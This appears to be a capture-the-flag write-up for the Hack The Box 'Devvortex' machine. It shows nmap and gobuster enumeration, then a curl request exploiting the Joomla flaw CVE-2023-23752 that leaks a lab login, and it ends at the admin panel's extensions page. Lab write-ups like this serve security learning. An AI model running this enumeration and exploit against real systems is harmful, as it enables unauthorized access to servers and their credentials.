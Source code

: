 # Devvortex Write-up

<img src="https://labs.hackthebox.com/storage/avatars/2565d292772abc4a2d774117cf4d36ff.png" width="200" height="200">

---------------------------------------------------------------------------------------------------------------------

## Nmap 

`nmap -sC -sV devvortex.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
    |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
    |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: DevVortex
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Subdomain and directory enumeration 

#### Gobuster

I use wordlist `subdomains-top1million-20000.txt`. You need to install SecLists https://github.com/danielmiessler/SecLists

`gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -k`

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:             http://devvortex.htb
    [+] Method:          GET
    [+] Threads:         10
    [+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
    [+] User Agent:      gobuster/3.6
    [+] Timeout:         10s
    [+] Append Domain:   true
    ===============================================================
    Starting gobuster in VHOST enumeration mode
    ===============================================================
    Found: dev.devvortex.htb Status: 200 [Size: 23221]
    Progress: 19966 / 19967 (99.99%)
    ===============================================================
    Finished
    ===============================================================

Directory enumerations for dev subdomain

`gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`

    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://dev.devvortex.htb/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
    /home                 (Status: 200) [Size: 23221]
    /media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
    /templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
    /modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
    /plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
    /includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
    /language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
    /components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
    /api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
    /cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
    /libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
    /tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]
    /layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
    /administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
    /cli                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cli/]                                                       
    Progress: 87664 / 87665 (100.00%)
    ===============================================================
    Finished
    ===============================================================

![image](https://github.com/zer00d4y/writeups/assets/128820441/7203ec9b-fa4f-449d-b59f-1bdb030b8591)

#### CVE-2023-23752

`curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`

![image](https://github.com/zer00d4y/writeups/assets/128820441/b72ce5f2-5931-4c2c-bbc5-3db0dc4b0376)

    lewis:P4ntherg0t1n5r3c0n##

![image](https://github.com/zer00d4y/writeups/assets/128820441/24711425-9456-47ee-b90b-41a1994b6b44)

![image](https://github.com/zer00d4y/writeups/assets/128820441/954a25aa-8759-42d0-9157-c2c8f26c75d5)

Systems -> Extensions

![image](https://github.com/zer00d4y/writeups/assets/128820441/e4cfe7ea-77bf-45b9-bff7-9f0ed98171de)

